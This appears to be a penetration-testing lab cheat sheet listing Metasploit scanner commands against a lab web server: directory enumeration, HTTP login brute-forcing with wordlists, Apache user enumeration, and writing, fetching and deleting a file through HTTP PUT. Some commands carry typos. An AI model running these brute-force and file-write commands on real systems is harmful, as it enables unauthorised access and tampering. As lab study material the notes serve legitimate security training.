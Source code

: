 > This module can be used to enumerate directories.

```msfconsole
use auxiliary/scanner/http/files_dir
show options
set RHOSTS <ip-address>
set DICTIONARY /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
run
```

> This can give you the names of different files on the machine

```msfconsole
use auxiliary/scanner/http/http_login
show options
set RHOSTS <ip-affress>
set AUTH_URI /<URI>/
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set USER_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt
set VERBOSE false
run
```

> This will find brute force credentials. 

```msfconsole
use auxiliary/scanner/http/apache_userdir_enum
show options
set RHOSTS <ip-affress>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set VERBOSE fals
run
```

> This can be used to brute force users on the target.

```msfconsole
use auxiliary/scanner/http/http_put
set RHOSTS victim-1
set PATH /data
set FILENAME test.txt
set FILEDATA "Welcome To AttackDefense"
run
```

> Using this module write a file on the target server. If the file is already exists it will overwrite it.

```Shell
wget http://victim-1:80/data/test.txt 
cat test.txt
```

> Use `wget` and download the `test.txt` file and verify it.

```msfconsole
use auxiliary/scanner/http/http_put
set RHOSTS victim-1
set PATH /data
set FILENAME test.txt
set ACTION DELETE
run
```
